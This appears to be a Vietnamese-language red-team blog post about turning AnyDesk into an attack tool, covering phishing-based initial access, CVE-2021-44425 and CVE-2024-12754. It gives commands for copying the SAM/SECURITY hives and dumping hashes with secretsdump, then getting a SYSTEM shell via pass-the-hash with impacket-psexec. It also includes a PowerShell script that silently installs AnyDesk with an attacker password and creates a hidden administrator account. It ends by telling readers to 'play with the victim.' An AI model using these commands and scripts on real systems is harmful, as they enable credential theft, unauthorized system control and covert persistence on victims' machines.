```yaml
---
title: "Repurposing remote desktop application as a strategic exploit"
published: 2025-02-10
description: ""
image: ""
tags:
  - "VulnResearch"
  - "WindowsInternal"
category: "Cybersecurity"
draft: false 
lang: "en"
---
```

![alt text](new-1.png)
Trong thế giới an ninh mạng, công cụ hợp pháp đôi khi trở thành vũ khí nguy hiểm khi rơi vào tay kẻ tấn công. Các ứng dụng Remote Desktop như AnyDesk, TeamViewer, Windows RDP không chỉ hỗ trợ quản trị hệ thống từ xa mà còn mở ra cơ hội cho Red Team thực hiện **Lateral Movement**, Leo thang đặc quyền (**Privilege Escalation**), và Duy trì truy cập (**Persistence**).

Trong bài viết này, chúng ta sẽ đi tìm hiểu một chuỗi kịch bản tấn công sử dụng AnyDesk – từ xâm nhập ban đầu đến thiết lập duy trì kết nối lâu dài.

## **Initial Access**  
![alt text](image-3.png)
**1. Social Engineering**  
Các nhóm ransomware như **Black Basta,Lockbit,...** thường gửi hàng loạt email đăng ký newsletter hợp pháp, gây nhiễu loạn hệ thống, sau đó liên hệ qua điện thoại (vờ là bộ phận IT) để dụ nạn nhân tải AnyDesk để "khắc phục sự cố".

**2. Phishing**  
Email/website giả mạo dụ người dùng tải phiên bản AnyDesk độc hại (chứa backdoor hoặc các phiên bản cũ có dính lổ hổng bảo mật) hoặc nhập thông tin xác thực giả. Khi cài đặt thành công, attacker toàn quyền điều khiển máy nạn nhân qua giao diện AnyDesk.

**3. Lỗ hổng Phần mềm** 
Các phiên bản AnyDesk chưa vá (đặc biệt lỗi **CVE-2021-44425**) cho phép attacker khai thác để chiếm quyền truy cập trái phép.  

**4. Unattended Access**
Tính năng "truy cập không giám sát" cho phép kết nối từ xa mà không cần xác nhận của người dùng. Attacker brute-force password hoặc dùng credential rò rỉ để duy trì kết nối ngầm.  
### **🌐 CVE-2021-44425**  
![alt text](image.png)
Khi sử dụng tính năng tunneling, client Windows của AnyDesk mở ra một cổng lắng nghe không cần thiết trên máy thuộc LAN của kẻ tấn công. Điều này cho phép kẻ tấn công truy cập trái phép vào bộ giao thức tunneling của AnyDesk trên máy cục bộ, cũng như vào bất kỳ phần mềm nào trên máy đích từ xa đang lắng nghe qua cổng được tunnel.

**Kịch bản Tấn công:**  
- **Bối cảnh:** Nhân viên công ty dùng AnyDesk tunnel để kết nối máy chủ nội bộ từ quán cà phê.  
- **Lỗi Binding TCP:** AnyDesk mặc định bind tunnel qua **0.0.0.0** (tất cả interface), kẻ tấn công cùng mạng Wi-Fi có thể:  
  - **Chiếm quyền Truy cập:** Khai thác cổng mạng bị lộ để tấn công dịch vụ nội bộ.  
  - **Leo thang Đe dọa:** Xâm nhập sâu vào mạng "an toàn", đánh cắp dữ liệu nhạy cảm qua kênh tunnel.  

**Hệ lụy:**  
- Dịch vụ nội bộ (database, file server) bị phơi bày trên mạng công cộng.  
- Attacker chiếm quyền điều khiển toàn bộ stack giao tiếp AnyDesk của nạn nhân.  

## Privilege Escalation
Ở case này chúng ta có thể tận dụng lổ hổng **CVE-2024-12754** để khai thác Local Privilege Escalation.
### **🌐 CVE-2024-12754**  
CVE-2024-12754 bắt nguồn từ cơ chế `READ/WRITE` file tùy ý của AnyDesk service, vốn chạy với quyền `NT AUTHORITY\SYSTEM`. 
![alt text](image-4.png)
Điều này đồng nghĩa với việc chúng ta có thể sao chép bất kỳ tệp nào đến một vị trí mà người dùng có đặc quyền thấp có thể truy cập, đồng thời vẫn giữ nguyên quyền sở hữu và các thiết lập quyền hạn ban đầu.
![alt text](image-9.png)
Vậy chúng ta sẽ có kịch bản tấn công như sau:
1. **Tận dụng lỗ hổng để copy file SAM/SECURITY**

Chúng ta có thể kết hợp khai thác lỗ hổng và phương pháp Shadow Copy từ mã nguồn sau: https://github.com/Wh04m1001/VSSCopy (sử dụng hàm NtQueryDirectoryObject để thực hiện việc copy) để có thể copy các file SAM/SECURITY.
![alt text](image-10.png)
> Note: **NtQueryDirectoryObject** là một hàm trong Windows Native API (NTAPI), thuộc nhóm hàm quản lý Object Manager của Windows. Hàm này cho phép truy vấn danh sách các Object Directory trong Windows Object Manager, giúp liệt kê các đối tượng hệ thống như named pipes, mutexes, events, symbolic links, shared memory, và device objects. 
```C
NTSTATUS NtQueryDirectoryObject(
  HANDLE DirectoryHandle, //Handle của Object Directory cần truy vấn.
  PVOID Buffer, //Bộ đệm chứa danh sách các đối tượng (trả về sau khi gọi hàm).
  ULONG Length, //Kích thước bộ đệm Buffer (tính bằng byte).
  BOOLEAN ReturnSingleEntry, // TRUE: Trả về một đối tượng duy nhất trong mỗi lần gọi. FALSE: Trả về danh sách đầy đủ các đối tượng có trong thư mục.
  BOOLEAN RestartScan, //TRUE: Quét lại từ đầu danh sách đối tượng. FALSE: Tiếp tục quét từ vị trí trước đó.
  PULONG Context, //Con trỏ đến vị trí quét hiện tại (giá trị sẽ được cập nhật khi quét danh sách đối tượng).
  PULONG ReturnLength //Trả về số byte thực tế được ghi vào Buffer.
);
```
Chúng ta xây dựng poc và output sau khi chạy poc của chúng ta:![alt text](image-7.png)
2. **Trích xuất Credential:**  
Sau khi chúng ta lấy được file SAM/SECURITY, chúng ta sử dụng các công cụ như `secretsdump.py` hoặc `mimikatz` để phân tích:
   - NTLM Hash của tài khoản Administrator.
   - LSA Secrets (dữ liệu nhạy cảm trong registry).
   - Cached Credentials (thông tin đăng nhập lưu cache).
      - Ví dụ: Dùng `secretsdump` trong bộ `impacket` để trích xuất hash.
      
      Command như sau: `python .\.venv\Scripts\secretsdump.py -sam .\Result\sam -system .\Result\system LOCAL`

      Output:!![alt text](image-8.png)
3. **Lấy shell**

Chúng ta có thể sử dụng kỹ thuật Pass The Hash để lấy **system shell**.

Sử dụng `psexec` từ bộ impacket để chạy **shell** với hash đã trích xuất được với cú pháp sau:
`impacket-psexec -hashes <LMHash>:<NTHash> <username>@<ip>`

**Kết quả:**  
![alt text](image-5.png)

Chúng ta có thể chạy shell với quyền `NT AUTHORITY\SYSTEM`. 
   ![Mô tả ảnh](sticker_2134-512x512.png)

## **Persistence - Backdooring AnyDesk for Future Access**  
Chúng ta cũng có thể tận dụng AnyDesk để persistence thông qua tính năng cho phép đặt mật khẩu điều khiển từ xa.
Scripts dưới đây cho phép cài đặt AnyDesk một cách âm thầm và đặt mật khẩu để có quyền truy cập từ xa và đồng thời tạo ra một người dùng mới với các đặc quyền quản trị viên và ẩn tài khoản mới khỏi màn hình đăng nhập Windows.
```powershell
# Tải & Cài đặt AnyDesk ngầm
mkdir "C:\ProgramData\AnyDesk"
$clnt = New-Object System.Net.WebClient
$clnt.DownloadFile("http://download.anydesk.com/AnyDesk.exe", "C:\ProgramData\AnyDesk.exe")
Start-Process "C:\ProgramData\AnyDesk.exe" -ArgumentList "--install C:\ProgramData\AnyDesk --start-with=win --silent" -Wait
# Đặt mật khẩu điều khiển từ xa
Start-Process "C:\ProgramData\anydesk.exe" -ArgumentList "--set-password hacker@123" -Wait
# Tạo user ẩn với quyền Admin
net user oldadministrator "hacker#213" /add
net localgroup Administrators oldadministrator /ADD
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v oldadministrator /t REG_DWORD /d 0 /f
```  
Bằng cách chạy đoạn script trên, Attacker có thể kết nối với target qua AnyDesk bất kỳ lúc nào. 
![alt text](image-12.png)
<h2><strong style="color: red;">Now you pwned everything!!! It’s your time to play with the victim.</strong><h2>